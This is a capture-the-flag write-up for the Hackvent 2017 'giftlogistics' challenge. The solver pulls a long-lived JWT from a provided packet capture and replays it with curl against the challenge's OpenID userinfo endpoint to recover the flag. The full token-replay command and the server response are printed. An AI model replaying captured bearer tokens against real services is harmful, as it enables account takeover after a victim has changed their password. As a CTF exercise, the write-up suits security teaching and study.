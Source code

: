 ```yaml
---
layout: writeup
title: 'Dec 12: giftlogistics'
level:
difficulty:
points:
categories: []
tags: []
flag: HV17-eUOF-mPJY-ruga-fUFq-EhOx

---
```


*countercomplete inmeasure*

## Challenge

Most passwords of Santa GiftLogistics were stolen. You find an example
of the traffic for Santa's
account with password and everything. The Elves CSIRT Team detected this
and made sure that
everyone changed their password.

Unfortunately this was an incomplete countermeasure. It's still possible
to retrieve the
protected user profile data where you will find the flag.

[Traffic](writeupfiles/giftlogistics.pcapng)

\[Link\]

## Solution

Link to a Gift Logistics website for Santa

![](writeupfiles/dec12-ss.png)

We open the pcap in wireshark, and find a jwt token:

    eyJraWQiOiJyc2ExIiwiYWxnIjoiUlMyNTYifQ.eyJzdWIiOiJzYW50YSIsImF6cCI6ImE3NWI0NzIyLTE0MWQtNGMwMC1iNjVjLTVkYzI3OTE0NmI2MCIsImlzcyI6Imh0dHA6XC9cL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjcyNDBcL2dpZnRsb2dpc3RpY3NcLyIsImV4cCI6MTUyNjkzNjkzNiwiaWF0IjoxNTExMzg0OTM2LCJqdGkiOiI4MTlmNWYzZC1hN2M3LTQ0YTktYmI5Ni0wZmQ4MmY0YjdlNzUifQ.U9Hv66701DtUb8zeqOo45JVbzC3yhKJhsQ_q7N20rdLn5-uovYzMWjhxY8I9oPQkv3s5iDDsx1GIUbnOkC8l__oj_uqptG0BPbRfD2K1blKpbXQt3yxD1pB63aHw5LRAp10ia0MNe8_eo-qzi9d58CVYY_XOtTRH8Ic_tP5lpXVaImi8miYFY2XqR1TuFM-cUjIMUYT9Ik8rwZAEbLO_1UAWPuQUpi0_Z6N0r3hKoIRSlknmmg8A5PunL2I0qFyICUm0cqb4fieBZ34R4117LmyQY_XvzKogIaLegDIgbp22hTGHPAdziEloYYaP5uc_aEnfo0eNvY7QLPNy1dDs-Q

with an expiry date far in the future according to https://jwt.io/

We also find a reference to an openID configuration file (from tcp
stream 20)

    {
        "request_parameter_supported": true,
        "claims_parameter_supported": false,
        "introspection_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/introspect",
        "scopes_supported": ["openid", "profile", "email", "address", "phone", "offline_access"],
        "issuer": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/",
        "userinfo_encryption_enc_values_supported": ["A256CBC+HS512", "A256GCM", "A192GCM", "A128GCM", "A128CBC-HS256", "A192CBC-HS384", "A256CBC-HS512", "A128CBC+HS256"],
        "id_token_encryption_enc_values_supported": ["A256CBC+HS512", "A256GCM", "A192GCM", "A128GCM", "A128CBC-HS256", "A192CBC-HS384", "A256CBC-HS512", "A128CBC+HS256"],
        "authorization_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/authorize",
        "service_documentation": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/about",
        "request_object_encryption_enc_values_supported": ["A256CBC+HS512", "A256GCM", "A192GCM", "A128GCM", "A128CBC-HS256", "A192CBC-HS384", "A256CBC-HS512", "A128CBC+HS256"],
        "userinfo_signing_alg_values_supported": ["HS256", "HS384", "HS512", "RS256", "RS384", "RS512", "ES256", "ES384", "ES512", "PS256", "PS384", "PS512"],
        "claims_supported": ["sub", "name", "preferred_username", "given_name", "family_name", "middle_name", "nickname", "profile", "picture", "website", "gender", "zoneinfo", "locale", "updated_at", "birthdate", "email", "email_verified", "phone_number", "phone_number_verified", "address"],
        "claim_types_supported": ["normal"],
        "op_policy_uri": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/about",
        "token_endpoint_auth_methods_supported": ["client_secret_post", "client_secret_basic", "client_secret_jwt", "private_key_jwt", "none"],
        "token_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/token",
        "response_types_supported": ["code", "token"],
        "request_uri_parameter_supported": false,
        "userinfo_encryption_alg_values_supported": ["RSA-OAEP", "RSA-OAEP-256", "RSA1_5"],
        "grant_types_supported": ["authorization_code", "implicit", "urn:ietf:params:oauth:grant-type:jwt-bearer", "client_credentials", "urn:ietf:params:oauth:grant_type:redelegate"],
        "revocation_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/revoke",
        "userinfo_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/userinfo",
        "token_endpoint_auth_signing_alg_values_supported": ["HS256", "HS384", "HS512", "RS256", "RS384", "RS512", "ES256", "ES384", "ES512", "PS256", "PS384", "PS512"],
        "op_tos_uri": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/about",
        "require_request_uri_registration": false,
        "id_token_encryption_alg_values_supported": ["RSA-OAEP", "RSA-OAEP-256", "RSA1_5"],
        "jwks_uri": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/jwk",
        "subject_types_supported": ["public", "pairwise"],
        "id_token_signing_alg_values_supported": ["HS256", "HS384", "HS512", "RS256", "RS384", "RS512", "ES256", "ES384", "ES512", "PS256", "PS384", "PS512", "none"],
        "registration_endpoint": "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/register",
        "request_object_signing_alg_values_supported": ["HS256", "HS384", "HS512", "RS256", "RS384", "RS512", "ES256", "ES384", "ES512", "PS256", "PS384", "PS512"],
        "request_object_encryption_alg_values_supported": ["RSA-OAEP", "RSA-OAEP-256", "RSA1_5"]
    }

Description says we can find our flag in protected user profile data,
and after some poking around we find:

    curl "http://challenges.hackvent.hacking-lab.com:7240/giftlogistics/userinfo?access_token=eyJraWQiOiJyc2ExIiwi
    YWxnIjoiUlMyNTYifQ.eyJzdWIiOiJzYW50YSIsImF6cCI6ImE3NWI0NzIyLTE0MWQtNGMwMC1iNjVjLTVkYzI3OTE0NmI2MCIsImlzcyI6Imh
    0dHA6XC9cL2NoYWxsZW5nZXMuaGFja3ZlbnQuaGFja2luZy1sYWIuY29tOjcyNDBcL2dpZnRsb2dpc3RpY3NcLyIsImV4cCI6MTUyNjkzNjkzN
    iwiaWF0IjoxNTExMzg0OTM2LCJqdGkiOiI4MTlmNWYzZC1hN2M3LTQ0YTktYmI5Ni0wZmQ4MmY0YjdlNzUifQ.U9Hv66701DtUb8zeqOo45JVb
    zC3yhKJhsQ_q7N20rdLn5-uovYzMWjhxY8I9oPQkv3s5iDDsx1GIUbnOkC8l__oj_uqptG0BPbRfD2K1blKpbXQt3yxD1pB63aHw5LRAp10ia0
    MNe8_eo-qzi9d58CVYY_XOtTRH8Ic_tP5lpXVaImi8miYFY2XqR1TuFM-cUjIMUYT9Ik8rwZAEbLO_1UAWPuQUpi0_Z6N0r3hKoIRSlknmmg8A
    5PunL2I0qFyICUm0cqb4fieBZ34R4117LmyQY_XvzKogIaLegDIgbp22hTGHPAdziEloYYaP5uc_aEnfo0eNvY7QLPNy1dDs-Q" -i
    HTTP/1.1 200 OK
    Server: Apache-Coyote/1.1
    Access-Control-Allow-Origin: *
    Content-Type: application/json;charset=ISO-8859-1
    Content-Language: en
    Content-Length: 98
    Date: Mon, 11 Dec 2017 23:34:09 GMT

    {"sub":"HV17-eUOF-mPJY-ruga-fUFq-EhOx","name":"Reginald Thumblewood","preferred_username":"santa"}
{: .language-bash}

